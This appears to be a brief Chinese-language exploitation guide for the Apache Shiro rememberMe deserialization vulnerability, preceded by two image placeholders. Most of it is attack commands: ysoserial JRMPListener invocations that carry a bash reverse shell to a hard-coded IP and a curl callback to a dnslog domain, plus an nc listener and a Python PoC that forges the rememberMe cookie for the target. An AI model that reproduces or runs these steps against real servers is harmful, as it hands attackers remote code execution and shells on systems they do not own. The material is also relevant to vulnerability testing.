


apache shiro
一、本地搭建验证工具下载地址
https://github.com/
二、本地验证
1、vps 开启ysoserial.jar
反弹shell
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections4 "反弹shell的命令"
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections4 "bash -i >& /dev/tcp/172.96.224.175/3333 0>&1"
向dnslog发送请求
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 2001 CommonsCollections4 "curl ac7e3h.dnslog.cn"
2、vps监听端口
nc -l 3333
3、执行poc生成rememberMe
python exp.py 104.245.42.165:1099
4、请求目标服务器，cookie添加rememberMe

三、在线检测工具
http://sbd.ximcx.cn/ShiroRce/
